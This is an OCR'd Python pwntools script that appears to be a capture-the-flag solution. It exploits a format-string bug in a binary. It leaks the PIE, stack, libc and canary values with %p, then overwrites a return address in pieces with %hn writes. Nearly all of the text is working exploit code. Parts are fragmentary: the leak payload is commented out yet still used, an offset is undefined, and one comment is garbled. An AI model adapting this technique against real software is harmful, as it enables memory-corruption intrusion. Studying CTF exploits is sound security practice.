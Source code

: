 ```python!

# leak_payload = b''
# for i in range(18, 28):
# 	leak_payload += f'%{i}$p.'.encode()

r.sendline(leak_payload)

leak = r.recvline().split(b'.')

pie = int(leak[0], 16) - 0x10b1 
stack = int(leak[1], 16) + 0x8		# return address of vuln1 (main+ gif dos)

libc_base = int(leak[2], 16) - leak_offset

print(hex(int(leak[2], 16)))

canary = int(leak[3], 16)

log.info(f'Get PIE: {hex(pie)}')
log.info(f'Get STACK: {hex(stack)}')
log.info(f'Get LIBC: {hex(libc_base)}')
log.info(f'Get CANARY: {hex(canary)}')

input("Press Enter to continue...")

vuln3_offset = (pie+0xbd4) & 0xFFFF
vuln3_read_offset = (pie+0xc24) & 0xFFFF
vuln2_offset = (pie+0xc64) & 0xFFFF

main_ret_addr = pie+0xf64

r.recvuntil(b'your spell: ')

payload = f'AA%.{vuln2_offset-2}d%14$hn'.encode()
payload += p64(stack)

r.sendline(payload)

log.info(f'We will return to this address: {hex(main_ret_addr)}')

payload = f'%{main_ret_addr & 0xFFFF}c%14$hn'.encode()
payload = payload.ljust(0x10, b"\x00")
payload += p64(stack + 0x30)

r.recvuntil(b'your spell: ')
r.sendline(payload)

payload = f'%{(main_ret_addr>>16) & 0xFFFF}c%14$hn'.encode()
payload = payload.ljust(0x10, b"\x00")
payload += p64(stack + 0x32)

r.recvuntil(b'your spell: ')
r.sendline(payload)

payload = f'%14$hn'.encode()
payload = payload.ljust(0x10, b"\x00")
payload += p64(stack + 0x34)

# payload = b'%p'

r.recvuntil(b'your spell: ')
r.sendline(payload)

```